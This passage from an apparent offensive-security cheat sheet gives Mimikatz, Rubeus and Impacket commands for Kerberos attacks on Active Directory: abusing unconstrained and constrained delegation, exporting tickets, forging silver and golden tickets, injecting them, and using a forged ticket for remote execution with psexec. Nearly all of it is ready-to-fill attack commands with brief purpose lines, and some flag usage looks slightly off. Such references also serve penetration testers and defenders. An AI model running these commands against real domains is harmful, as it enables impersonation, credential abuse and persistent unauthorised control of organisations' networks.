 **Purpose:** Abuse Kerberos delegation features (Unconstrained, Constrained, Resource-Based Constrained Delegation) to impersonate users.

#### **Unconstrained Delegation:**
- **Mimikatz (Windows):**
  ```powershell
  sekurlsa::tickets /export
  ```
- **Impacket (Linux):**
  ```bash
  impacket-getTGT -user <user> -domain <domain> -hashes <NTLM_hash> -outputfile <TGT.kirbi>
  ```

#### **Constrained Delegation:**
- **Rubeus (Windows):**
  ```powershell
  Rubeus.exe tgtdeleg
  ```
- **Impacket (Linux):**
  ```bash
  impacket-getST -target-user <target_user> -spn <SPN> -domain <domain> -tgt <TGT.kirbi>
  ```

### **4. Silver Ticket Attack**

**Purpose:** Create and inject forged service tickets (TGS) to impersonate a service account.

#### **Windows:**
- **Mimikatz:**
  ```powershell
  kerberos::golden /domain:<domain> /sid:<domain_SID> /target:<target_service> /rc4:<NTLM_hash> /user:<username> /id:<user_id> /ticket:<output_ticket.kirbi>
  ```
  ```powershell
  kerberos::ptt <output_ticket.kirbi>
  ```

#### **Linux:**
- **Impacket:**
  ```bash
  impacket-ticketer -nthash <NTLM_hash> -domain-sid <domain_SID> -domain <domain> -spn <SPN> <username>
  ```
  ```bash
  export KRB5CCNAME=<ticket.ccache>
  impacket-psexec -k -no-pass <target_ip>
  ```

### **5. Golden Ticket Attack**

**Purpose:** Create and inject a forged TGT (Ticket Granting Ticket) for domain persistence.

#### **Windows:**
- **Mimikatz:**
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_NTLM_hash> /id:<user_id> /renewmax /ticket:<golden_ticket.kirbi>
  ```
  ```powershell
  kerberos::ptt <golden_ticket.kirbi>
  ```
